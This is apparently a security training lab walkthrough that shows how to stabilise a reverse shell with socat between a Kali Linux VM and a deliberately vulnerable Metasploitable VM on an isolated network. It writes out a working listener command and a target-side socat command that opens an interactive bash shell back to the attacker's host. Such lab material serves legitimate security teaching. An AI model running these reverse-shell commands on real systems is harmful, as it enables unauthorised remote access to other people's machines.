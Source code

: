- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to stabilise a shell with socat.

**Lab Purpose:**

Socat is a command line-based utility that established two bi-directional byte streams and transfers data between them. Socat can be used for many different purposes due to its versatility.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using socat to create a stable reverse shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![socat](attachements/socat-2.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Socat comes pre-installed on Kali Linux. The main difference between netcat and socat is that the syntax for using socat is more difficult to understand. Socat is used to make connections between two points. These points can be anything. We will begin by creating a reverse shell connecting our Kali VM to our Metasploitable VM. We first need to establish a listener on our Kali VM.

One of the reasons you might use socat over netcat for establishing a shell is because we can establish a fully stable shell much more quickly and with greater ease.

First, let’s find out the eth0 IP address of our Kali VM and write it down. We will use this information on our Metasploitable VM. Open a terminal screen in Kali VM and type this command:

ifconfig

![ifconfig](attachements/ifconfig-7.png)

192.168.56.103 is the IP address of our Kali VM in this case.

Then, establish a new listener on our Kali VM by typing the following:

socat TCP-L:8080 FILE:`tty`,raw,echo=0

This command will establish a listener on the port we specify. It will also allocate a new tty and set the echo to zero from start, meaning we don’t have to specify this later like we did with netcat (by hitting CTRL+Z and then typing “stty raw -echo; fg”).

### Task 3:

A normal socat listener can be connected to with any payload, but this new listener cannot. We will need to use a specific socat command in order to connect to this listener. For this to work, our target must have socat installed.

We will now switch to our Metasploitable VM. The specific command we will be typing into the terminal in our Metasploitable VM looks like the following:

socat TCP:192.168.56.103:8080 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane

Do not break this command above using enter when typing into the terminal screen!

The first section will connect the Metasploitable VM back to our Kali VM on the port specified.

- The EXEC:”bash -li” creates an interactive bash shell for us to use
- pty allocates a pseudoterminal on the target, which is required as part of the stabilisation process
- stderr makes sure any error messages we may encounter get shown in the shell, which doesn’t happen with a non-interactive shell
- sigint – If we hit ctrl + c while in the shell, it will now be passed to any processes we are running in the shell, which allows us to kill processes and commands in the shell
- setsid will create the process in a new session
- sane will stabilise the terminal and attempt to normalise it

If we return to our Kali terminal and attempt to execute commands such as “id” and “whoami”, we can see that we have successfully established a shell to our metasploitable machine.

![socat](attachements/socat-3.png)

This is a fully stable reverse shell and it is also interactive, as you can see interactive processes such as SSH will work. You will also notice that ctrl + c will not kill the shell. You will also notice the msfadmin@metasploitable:~$ indicating that we have a fully featured shell on the target.

Socat can establish a more stable shell on a target with little effort. The main problem with using this tool is ensuring that the target has the tool installed.